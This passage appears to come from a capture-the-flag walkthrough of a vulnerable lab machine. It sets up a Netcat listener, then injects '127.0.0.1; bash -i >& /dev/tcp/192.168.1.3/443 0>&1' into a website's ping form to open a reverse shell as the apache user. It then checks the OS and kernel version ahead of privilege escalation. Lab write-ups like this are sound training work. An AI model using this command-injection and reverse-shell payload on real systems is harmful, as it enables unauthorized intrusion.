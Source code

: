 Let's start by setting up a Netcat listener on port 443 - since this is already open on the victim’s machine.

```console
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
```

Now, let's go back to the Ping console on the website and run the following command:

`127.0.0.1; bash -i >& /dev/tcp/192.168.1.3/443 0>&1`

This will basically initiate a reverse TCP connection using bash.

<a href="/images/kiop2-5.PNG"><img src="/images/kiop2-5.PNG"></a>

Perfect! We were able to connect to the victim’s machine, and it seems we are currently running as the account __apache__. Our next step would be to carry out some [Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) to be able to get access to the root account.

Let's start by seeing what version of Linux the system is running.

```console
bash-3.00$ cat /etc/*-release
CentOS release 4.5 (Final)
bash-3.00$ cat /proc/version
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007
bash-3.00$ rpm -q kernel

kernel-2.6.9-55.EL
```
